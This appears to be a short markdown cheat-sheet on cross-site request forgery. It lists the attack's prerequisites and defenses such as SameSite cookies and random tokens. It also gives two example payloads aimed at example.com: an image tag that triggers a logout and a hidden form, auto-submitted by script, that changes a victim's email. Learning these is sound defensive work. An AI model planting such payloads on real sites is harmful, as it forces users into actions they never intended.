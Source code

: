 ```yaml
---
title: CSRF - Cross Site Request Forgery
description: Introduction Cross Site Request Forgery
---
```


## Introduction

A CSRF allows an attacker to make victims to perform actions that they do not intend to perform.

## Pre-requisites

1. Cookie-based session handling.
2. No unpredictable request parameters.

## Defenses

1. Use the `SameSite` cookie attribute to :
    - `Strict` : the browser will **not** include the cookie in any requests that originate from another site.
    - `Lax` :  the browser will include the cookie in requests that originate from another site but only if **two conditions** are met : GET method and the request resulted from a top-level navigation by the user, such as clicking a link (not requests by JS).
2. Use random CSRF Token.

## Payloads

### GET

```html
<img src="https://example.com/logout">
```

### POST

```html
<form method="POST" action="https://example.com/email">
    <input type="hidden" name="email" value="hello@hello.com">
    <input type="hidden" name="csrf" value="0KL98nyeTFWocYvP8q9RHGrIt9IYn1Q7">
</form>
<script>
        document.forms[0].submit();
</script>
```

## References

- https://portswigger.net/web-security/csrf
- https://portswigger.net/web-security/csrf/samesite-cookies
